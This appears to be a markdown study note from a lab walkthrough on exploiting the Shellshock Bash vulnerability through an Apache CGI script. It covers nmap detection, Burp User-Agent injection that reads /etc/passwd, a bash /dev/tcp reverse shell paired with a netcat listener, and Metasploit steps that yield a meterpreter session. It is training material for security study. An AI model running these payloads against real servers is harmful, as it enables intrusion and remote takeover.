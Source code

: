 # Exploiting Shellshock
>Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.
> 
> In the context of Apache web server, we can utilize any legitimate CGI scripts accessible on the server. Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash. This vulnerability can be exploited both manually (through a proxy like Burp) and automatically with the use of an MSF exploit module.
 
1. This vulnerability existed in older versions of Bash. 
2. In the context of remote exploitation, Apache web servers configured to run **_CGI scripts_** or **_.sh scripts_** are vulnerable to this attack.  
  a. The first service vulnerability: Apache  
  b. The second service vulnerability: Bash  

## Contents 
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)

## Intro

### [CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271) (Shellshock | Bashdoor)
- Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since v1.3) that allow an attacker to execute remote arbitrary commands via Bash, consquently allowing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellschock vulnerability was discovered by Stephane Chazelas on 09/12/2014 and was made public on 09/24/2014.
- Bash is a a *Nix shell that is part of the GNU project and is the default shell for most Linux distros.
- Not very common anymore since most distros have updated the Bash shell. But... you never know.

### Shellshock (details)
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters:
```
( )  {  : ;  } ; echo; echo; [command];
```
- This vulnerability only affects Linux since Windows does not use Bash and since Windows is not a *Nix-based operating system.
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
  - CGI: Common Gateway Protocol
  - CGI scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client (results displayed on the web site/page).
- In Apache, CGI scripts are executed (usually, by default) through a Bash shell.
  - Exploit: include the above trailing characters and follow that with malicious Bash script/code.
 
### Shellshock Exploitation
- **KEY:** In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
- In the context of Apache web server, we can utilize any legitimate **_CGI scripts_** accessible on the server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
  - If the version of Bash that runs the CGI script is vulnerable, you can exploit it.
- This vulnerability can be exploited both manually (through a proxy like Burp) and automatically with the use of an MSF exploit module.

## Manual Exploit
> The following is from a lab. All of the lab-specific context is retained in order to show the flow of execution, etc. 

### Initial Scan & Observation
- Start with a normal scan of your target system (`-sV`)
  - Apache http server on port 80 (and not much else)
  - confirm it with a broswer (open it up and look at it)
- OBSERVE: On the index page there is a dynamic countdown time stamp.
  - How do they get the time and the countdown to display?
  - This is being accomplished through the use of a CGI script.
  - "View Page Source" will show you the script that is called: `/gettime.cgi`
  - The initial forward slash lets us know the script is stored in the root directory of the web server.
    - This means the script is publicly accessible (just like index.html, et al, that sit in the root directory).
  - So do this: In the URL box of the browser: `[target ip]/gettime.cgi`
    - This will display the results of the script to the client.
    - **_The CGI script is executing commands with Bash_** and then displaying the results of the command executionin the browser window for the client.

### NSE: Check Vulnerability
- Check to see if the server is vulnerable to the Shellshock attack with an NSE script.
```
nmap -sV --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" [target ip]
# or (both work the same)
nmap -sV --script http-shellshock --script-args uri=/gettime.cgi  [target ip]
```

### Burp Suite
> We are going to test the target machine first to see if the vulnerability exists.
> Then we are going to get a reverse shell on the target system. 

#### Start the Proxy & Burp
- Use the FoxyProxy Firefox extension to turn the browser proxy on and off.
  - This sets BurpSuite as a proxy and all traffic through Firefox (between Firefox and the target) will go through Burp.
- Open BurpSuite: Kali menu... Web Application Analysis... BurpSuite.
  - "Next" on the Temporary Project
  - "Start Burp" (with default configs)
  - Disregard the nag pop-up
- In Burp: Click on the "Proxy" tab and check to make sure "Intercept is on" is ON.
  - You can "Forward" anything sitting in queue before we get going.

#### Back to Firefox
- Reload the cgi script (the page: `[target ip]/gettime.cgi`)
- This will GET the page and hold it in the proxy (Burp) until we forward it to the browser

#### Burp Grabbed the Request
- Go back into Burp and you should see the proxy grabbed it.
- We are going to be injecting our special characters into the http header.
- Right-click in the "Raw" tab (where your request was held in queue) and "Send to Repeater"
- Click on the "Repeater" tab

#### Burp :: Repeater
- In the Repeater tab in Burp: delete the current "User-Agent:" information (following the colon, not "User-Agent:").
- Replace that with our own command.  EXAMPLE
- Type in: `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
- Send that request with Repeater by clicking the "Send" button.
- You should see a Reponse in the Response window on the right side of the Repeater screen
  - If it worked, you should see the contents of the passwd file on the target displayed in the Response window of Repater in Burp.
 
#### Reverse Shell: Listener
- Set up your listener:
```
nc -nvlp 1234
```
- `-n`        no DNS lookups (we're using IPs, not domain names)
- `-v`        verbose output
- `-l`        listener
- `-p 1234`   port the listener should listen on for incoming calls...

#### Reverse Shell: Burp
- Back in Burp, send the comand for the reverse shell:
```
User-Agent: () { :; }; echo; echo; /bin/bash/ -c 'bash -i >&/dev/tcp/[kali ip]/1234 0>&1'
```
- Initialate an interactive Bash session and send it to our Kali listener; the redirect stdin (keyboard) to the same destination as stdout (display; which has been sent to our Kali listener).

#### Reverse Shell: Kali
- Back in your Kali attack machine, you should have an interactive Bash shell on the target machine. Some commands to run to figure out what you have...
- `whoami`, `cat /etc/*issue`, `cat /etc/release`, `uname -a`

## MetaSploit
- Crank up msfconsole and the postgresql db if needed. Remember to turn off FoxyProxy and close Burp
```
service postgresql status|start
msfconsole
> search shellshock
  # The auxiliary module is a scanner that will tell you whether or not the server is vulnerable to Shellshock
  # The exploit module for "Variable Code Injection"
  # use the exploit module: exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
  # You need to set RHOSTS to [target ip]
  # You need to set TARGETURI to    /gettime.cgi
  # Everything else should be okay with defaults
> run
  # That should give you a meterpreter session on the target system
  # Check with sysinfo and getuid
```
- Your next practical step would be privilege escalation. 





